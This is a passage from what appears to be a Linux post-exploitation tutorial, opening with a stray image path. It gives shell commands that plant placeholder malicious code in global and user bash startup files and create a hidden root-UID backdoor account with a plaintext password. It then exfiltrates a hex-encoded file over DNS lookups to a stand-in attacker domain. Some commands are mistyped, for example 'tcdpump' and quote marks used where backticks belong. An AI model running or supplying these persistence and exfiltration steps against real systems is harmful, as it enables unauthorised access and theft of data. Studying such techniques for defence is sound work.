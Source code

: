 ```
}
```

Then we can add the code to the .bashrc #global-bachrc

```
echo <malicious code> >> /etc/bash.bashrc
```

\#Local-bashrc

```
echo <malicious code> >> ~/.bashrc
```

\#Bash\_profile

```
echo <malicious code> >> ~/.bash_profile
```

#### Creating New Persistence Accounts

**Adding a new user with root privileges** Below we add `hacker` as a username with password `hacker-password` as a root account with root UID and GID.

```
useradd -o -u 0 -g 0 -d /root -s /bin/bash hacker echo hacker-password | passwd --stdin hacker
```

## Data Exfiltration

Data exfiltration is the stage that comes after the attacker compromised the target machine and in which the attacker attempts to exfiltrate data from the target to their own server/machine.

### DNS Exfiltration

To exfiltrate files over DNS, some steps are to be taken on the attacker machine and others on the target/victim machine. #Method-1 **On The Target Machine** Lets say the file we want to exfiltrate is `secret.doc` and its hex output could be `sensitive.hex`

```
xxd -p secret.doc sensitive.hex
```

Then we use a for loop to perform a DNS lookup on the attacker domain in order to send the file. Lets say the domain that you set up on the attacker C2 server is `attacker.com`

```
for i in 'cat sensitive.hex'; do dig $i.shell.attacker.com; done
```

**Attacker Machine** Capture the DNS requests from the target machine

```
tcdpump -w /tmp/dns -s0 port 53 and host example.com
```

Then we extract the exfilled file `sensitive.hex` from the packet into `decoded.txt`
